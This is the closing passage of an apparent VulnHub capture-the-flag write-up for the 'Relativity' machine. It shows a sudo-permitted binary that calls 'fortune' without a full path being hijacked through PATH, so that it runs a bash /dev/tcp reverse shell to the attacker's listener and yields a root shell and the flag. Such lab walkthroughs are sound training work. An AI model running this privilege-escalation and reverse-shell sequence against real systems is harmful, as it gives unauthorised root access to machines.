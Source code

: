 ```bash
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY PATH", env_reset

User jetta may run the following commands on this host:
    (root) NOPASSWD: /home/jetta/auth_server/auth_server
```
Ahh so we can run auth_server as root then, notice above in the strings output how its calling fortune -s with no path? Well lets do the same old same old add a new folder to our path and create a file named fortune that does something as root, update our PATH, then we run auth server again and it's game over. We can just make our fortune a ```bash -i >& /dev/tcp/192.168.147.171/443 0>&1``` one liner and hopefully get a shell back. 
```bash
sh-4.2$ echo 'bash -i >& /dev/tcp/192.168.147.171/443 0>&1' > fortune && chmod +x fortune
sh-4.2$ export PATH=/home/jetta:${PATH}
sh-4.2$ sudo auth_server/auth_server
sudo auth_server/auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)

```
It hangs this time and sends us a shell as root, we cat the flag and its all over.
```bash
root@splinter:~/labs/vulnhub/relativity# nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.147.178.
Ncat: Connection from 192.168.147.178:58048.
[root@Relativity jetta]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@Relativity jetta]# cat /root/flag.txt
cat /root/flag.txt
65afa0e5928b98f7ae283e16df2d43bf
```

Thanks for that @Sagi, a nice relaxing box with a couple interesting SQL injection and RFI vulnerabilities then the reverse port forward and the IRC exploit was pretty cool. I've had some fun with your Vulnhub machines and priv esc workshop stuff on github, thanks for making all that. Thanks also to Vulnhub for hosting everything for free and being awesome.










